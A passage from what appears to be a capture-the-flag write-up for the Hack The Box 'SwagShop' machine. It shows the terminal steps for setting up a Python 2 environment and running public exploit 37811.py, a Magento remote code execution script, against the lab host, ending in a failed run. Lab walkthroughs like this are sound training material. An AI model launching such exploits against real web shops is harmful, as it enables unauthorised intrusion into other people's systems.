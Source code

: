 		
		created virtual environment CPython2.7.18.final.0-64 in 2333ms
		  creator CPython2Posix(dest=/root/htb/swagshop/10.10.10.140/exploit/magento-exploit, clear=False, no_vcs_ignore=False, global=False)
		  seeder FromAppData(download=False, pip=bundle, setuptools=bundle, wheel=bundle, via=copy, app_data_dir=/root/.local/share/virtualenv)
			added seed packages: pip==20.3.4, setuptools==44.1.1, wheel==0.37.1
		  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
		```
	2. Activate the environment
		```
		┌──(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# source magento-exploit/bin/activate
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# 
		```
	3. Install `pip`
		```
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
		
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# python get-pip.py
		```
	4. Install `mechanize` python library
		```
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# pip install mechanize
		```
	5. Run exploit
		```
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# python2 37811.py http://swagshop.htb/index.php "uname -a"
		Traceback (most recent call last):
		  File "37811.py", line 56, in <module>
			br['login[password]'] = password
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_mechanize.py", line 809, in __setitem__
			self.form[name] = val
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_form_controls.py", line 1963, in __setitem__
			control = self.find_control(name)
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2355, in find_control
			return self._find_control(name, type, kind, id, label, predicate, nr)
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2448, in _find_control
			raise ControlNotFoundError("no control matching " + description)
		mechanize._form_controls.ControlNotFoundError: no control matching name 'login[password]'
		```
		- `no control matching name 'login[password]'`
4. Debugging `37811.py` 
